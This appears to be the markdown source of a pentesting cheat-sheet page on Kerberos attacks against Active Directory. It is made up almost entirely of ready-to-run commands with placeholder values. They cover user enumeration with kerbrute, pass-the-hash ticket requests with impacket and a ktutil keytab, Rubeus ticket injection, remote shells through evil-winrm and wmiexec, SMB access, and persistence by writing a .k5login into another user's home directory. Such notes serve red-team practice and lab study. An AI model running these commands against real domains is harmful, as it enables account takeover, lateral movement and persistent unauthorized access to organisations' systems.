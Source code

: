 ```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["kerberos", "kerbrute", "rubeus", "active directory", "ad", "domain controller", "Windows", "smb"]
---
```


---
### Users enum

{{< tab set1 tab1 active >}}kerbrute{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
kerbrute userenum --domain <DOMAIN> --dc <DC> usernames.txt
```

</div>

<small>*Ref: [kerbrute](https://github.com/ropnop/kerbrute)*</small>

{{< /tabcontent >}}

### Usernames generator

{{< tab set2 tab1 active >}}username-anarchy{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
./username-anarchy -i users.txt | tee usernames.txt
```

</div>

<small>*Ref: [username-anarchy](https://github.com/urbanadventurer/username-anarchy)*</small>

{{< /tabcontent >}}

<br>

---

### Generate Kerberos ticket (From Linux)

{{< tab set3 tab1 active >}}Impacket{{< /tab >}}
{{< tab set3 tab2 >}}Kinit{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```bash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> <DOMAIN>/administrator
```

```bash
export KRB5CCNAME=administrator.ccache
```

```bash
# Check ticket
klist
```

</div>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

<div>

```bash
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```bash
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
10.10.11.10 <DC> <DOMAIN>
```

```bash
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf' [optional]
nameserver 10.10.11.10
```

```bash
# Step 3: Edit '/etc/krb5.conf'

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```bash
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

</div>

#### 2a. Without creds

<div>

```bash
# Generate kerberos ticket for user
kinit <USER>
```

</div>

#### 2b. With NTLM hash

<div>

```bash
ktutil
```

```bash
add_entry -p administrator@<DOMAIN> -k 1 -key -e rc4-hmac
```

```bash
<HASH>
```

```bash
write_kt administrator.keytab
```

```bash
exit
```

```bash
kinit -V -k -t administrator.keytab -f administrator@<DOMAIN>
```

</div>

#### 3. Check ticket

<div>

```bash
klist
```

</div>

{{< /tabcontent >}}

### Generate Kerberos ticket (From Windows)

{{< tab set4 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```powershell
.\Rubeus.exe asktgt /user:<USER> /password:<PASSWORD> /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

</div>

{{< /tabcontent >}}

<br>

---


### Winrm with Kerberos

{{< tab set5 tab1 active >}}evil-winrm{{< /tab >}}
{{< tab set5 tab2 >}}wmiexec{{< /tab >}}
{{< tabcontent set5 tab1 >}}

<div>

```bash
# Step 1: Edit '/etc/krb5.conf'

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```


```bash
# Step 2: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set5 tab2 >}}

<div>

```bash
sudo ntpdate -s <DC> && impacket-wmiexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

</div>

{{< /tabcontent >}}

<br>

---

### Connect to SMB with Kerberos

<div>

```bash
sudo ntpdate -s <DC> && impacket-smbclient <DOMAIN>/<USER>@<TARGET_DOMAIN> -k -no-pass
```

</div>

<br>

---

### Add Kerberos Access in Linux

<div>

```bash
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```

</div>

<br>